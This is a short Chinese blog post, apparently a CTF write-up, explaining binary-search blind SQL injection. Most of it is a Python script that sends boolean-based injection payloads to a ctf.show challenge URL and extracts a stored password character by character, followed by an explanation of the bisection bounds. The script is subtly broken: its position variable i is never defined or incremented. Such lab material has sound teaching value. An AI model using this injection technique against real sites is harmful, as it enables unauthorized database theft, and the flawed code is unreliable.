 ```yaml
---
title: "SQL 盲注二分法"
date: 2022-07-28T20:00:43+08:00
draft: false
author: "X1r0z"

tags: ['sqli','python']
categories: ['web']

hiddenFromHomePage: false
hiddenFromSearch: false
twemoji: false
lightgallery: true
ruby: true
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false

toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
math:
  enable: false
share:
  enable: true
comment:
  enable: true
---
```



之前一直都是整个过一遍字典... 二分法没怎么研究

二分法有一个使用条件, 就是需要查找的内容必须有序 (即按照从小到大或从大到小的顺序排序)

这里借 ASCII 码实现二分法盲注

<!--more-->

二分法 时间复杂度为 `O(log2n)`, 二分法查找比遍历字典查找效率高得多

```python
import requests

url = 'http://a2a7e64c-6f02-4059-84fc-3cdda760b232.challenge.ctf.show/api/index.php?id=1'

flag = ''

while True:

    min = 32
    max = 127

    while min < max:
        mid = (min + max) // 2
        payload = '\' and if(ascii(substr((select password from ctfshow_user where username=\'flag\'),{},1))>{},1,0) %23'.format(i,mid)
        res = requests.get(url + payload)
        if 'admin' in res.text:
            min = mid + 1
        else:
            max = mid
    flag += chr(min)
    print(flag)

```

这里主要说一下为什么是 `min = mid +1` 和 `max = mid`

当判断 mid 大于某个值的结果为 true 时, 这个所求值肯定是比 mid 要大的 (大于), 所以是 `mid + 1`

当结果为 false 时, 所求值应该是不超过 mid (小于等于), 所以是 `max = mid`
